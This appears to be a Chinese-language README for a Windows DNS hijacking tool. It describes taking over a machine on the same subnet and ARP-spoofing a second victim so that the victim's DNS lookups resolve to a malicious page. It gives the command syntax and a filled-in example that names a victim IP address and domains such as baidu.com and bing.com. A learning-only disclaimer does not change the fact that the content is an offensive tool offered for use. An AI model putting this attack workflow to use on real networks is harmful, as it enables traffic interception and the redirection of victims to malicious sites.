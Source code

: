 ## 免责声明

涉及到的所有技术仅用来学习交流，严禁用于非法用途。否则产生的一切后果自行承担。

## 介绍

实现windows环境下的dns劫持需求，全程操作都是在被控机器A上完成。

假设机器A(被控)和机器B在一个C段：

1、在A上对B做arp欺骗，使B的所有流量到A。

2、修改B流量中的dns的解析规则，解析到恶意页面。

arp欺骗：

参考：https://github.com/alandau/arpspoof

dns劫持：

```
wlidns.exe "网卡描述(ipconfig /all)" 受害者ip "要劫持的根域名"

wlidns.exe "Intel(R) PRO/1000 MT Network Connection" 192.168.213.188 "baidu.com,2345.cc,2345.com,bing.com"
```






